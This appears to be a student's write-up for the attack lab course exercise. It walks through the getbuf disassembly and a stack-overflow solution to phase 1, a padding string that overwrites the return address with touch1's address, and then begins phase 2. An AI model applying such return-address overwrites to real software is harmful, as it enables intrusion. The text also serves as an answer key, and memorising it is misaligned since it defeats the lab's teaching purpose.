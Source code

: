 We notice that there is a call for `getbuf()`, and the address of `touch1` is `004017c0 <touch1>`.

```c++
004017a8 <getbuf>:
  4017a8:  48 83 ec 28            sub    $0x28,%rsp
  4017ac:  48 89 e7               mov    %rsp,%rdi
  4017af:  e8 8c 02 00 00         callq  401a40 <Gets>
  4017b4:  b8 01 00 00 00         mov    $0x1,%eax
  4017b9:  48 83 c4 28            add    $0x28,%rsp
  4017bd:  c3                     retq   
```

Here function `Gets` put the value we input in `%rsp`, see `disas Gets` for more details if you are interested.

Here is the stack:

```c
| return address |
|     0x28       |   
|     0x20       |
|     0x18       |   
|     0x10       |   
|     0x08       |
|     0x00       | 
```

So we should put more things than `0x28`, the additional `0x004017c0`covering the `return address`

Then we get the answer: (**little-endian**)

```c++
00 00 00 00 00 00 00 00    // 64 bit, 8 bytes
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00    // 0x28 bytes
c0 17 40 00                // use `touch1` to cover the return address
```

Save it in `phase_1_raw.txt`(remove the comments) then `./hex2raw <phase_1_raw.txt >phase_1.txt`
then `./ctarget -qi phase_1.txt` to pass the phase_1

### phase_2

This phase we need to call `touch2`, and the cookie should equal to the value

```c
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    }
    else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

